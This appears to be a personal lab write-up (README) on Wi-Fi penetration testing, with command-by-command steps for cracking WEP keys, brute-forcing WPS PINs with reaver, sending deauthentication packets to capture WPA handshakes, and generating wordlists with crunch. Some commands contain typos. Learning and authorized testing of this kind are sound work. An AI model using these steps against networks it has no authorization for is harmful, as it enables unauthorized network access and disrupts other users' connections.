 # Wireless Network Penetration Testing

## Objective

Finding weaknesses in Wifi networks with different encryption types. Finding the weakness of WEP networks. 


### Skills Learned

- Finding 5Gz and 2.5Gz wireless networks around me
- aircrack-ng
  

### Tools Used

- Kali Linux.
- VMware Fusion.
- airodump-ng
- aircrack-ng
- WASH
- aireplay-ng
- Crunch

### Steps for WAP

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

>The mode will be Monitor now

1. Sniffing on 5G and 2.4G networks and find the network with the cipher WEP
```bash
airdump-ng --band abg wlan0
```

2. Sniffing packets from the network with the WEP cipher with the specific MAC and channel number and save the results in a file test
```bash
airodump-ng --bssid 03:DE:4B:AD:CC:8B --channel 9 --write test mon0
```

3. Wait for the #Data number to move real fast and open a new terminal window and ls to find the ".cap" file that you created.
4. Use aircrack-ng to find the Key from the file we created ending with .cap
```bash
aircrack-ng test.cap
```
5. Copy the key and remove the : and that would be the wifi password.

**If the network is not busy we need to follow the steps below: -**

1. We need to capture data from the WEP network and write it in a file.
```bash
 airodump-ng --bssid B4:75:0E:36:6A:9E --channel 11 --write basic_wep wlan0
```
2. We will need to commmunicate with the WEP network by creating a Fake Authentication attack using aireplay-ng
```bash
aireplay-ng --fakeauth 0 -a B4:75:0E:36:6A:9E -h 6E:3D:AC:84:DB:A0 wlan0
```
>the first MAC is the target and the second MAC is the USB adapter.
>If you want to know the permanent MAC address of the USB adapter
```bash
macchanger -s wlan0
Current MAC:   ba:1f:40:bc:19:d4 (unknown)
Permanent MAC: 34:7d:e4:40:83:86 (unknown)
```
3. We need to create an ARP Request preplay attack to generate new packets
```bash
aireplay-ng --arpreplay -b B4:75:0E:36:6A:9E -h ba:1f:40:bc:19:d4 wlan0
```
4. We will then crack the file we created to find the password.
```bash
aircrack-ng arpreplay-01.cap
```

### Steps for WPA/WPA2

**Works for some routers with WPS**
- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
- Find wifi networks with WPS enebled using the tool WASH
```bash
wash --interface wlan0
```
- Use aireplay-ng to create a fake authentication with te first MAC address is the target and the second is the USB wireless adapter MAC address, which is the first 12 characters from the ifconfig, make sure to replace the "-" with the ":".
```bash
aireplay-ng --fakeauth 30 -a 78:67:0E:31:4C:42 -h 3A:97:5F:E2:18:5F wlan0
```
- Don't execute the code above yet. We go to the second terminal and use reaver tool to bruteforce and get the pin.
```bash
reaver --bssid 78:67:0E:31:4C:42 --channel 1 --interface wlan0 -vvv --no-associate
```

- If Reaver finds the pin then the password will be available for the Wifi network. 
>Not all routers will be cracked with these steps.

**Method for capturing handshake**

1. Sniff on 5G and 2.4G networks and find the network with WPA/WPA2 and get the BSSID
```bash
airdump-ng --band abg wlan0
```
2. Write a file via **airodump-ng**.
```bash
airodump-ng --bssid 30:DE:4B:AD:CC:8A --channel 161 --write wpa_handshake wlan0 
```
3. Disconnect the client from the target network to capture the handshake.
```bash
aireplay-ng --deauth 4 -a 30:DE:4B:AD:CC:8A -c EE:7B:BE:70:D6:1F wlan0
```
> The number after the --deauth is the number of packets you want to send to the target.
> The first MAC is the target and the second MAC of the client you want to disconnect (will be under station).

4. The handshake WPA will be saved in the file we created wpa_handshake.cap
5. We will create a wordlist of passwords possibilities using the tool **Crunch**. Then read the file
```bash
crunch 1 3 abc123 -o test_wordlist.txt
cat test_worklist.txt
```


￼
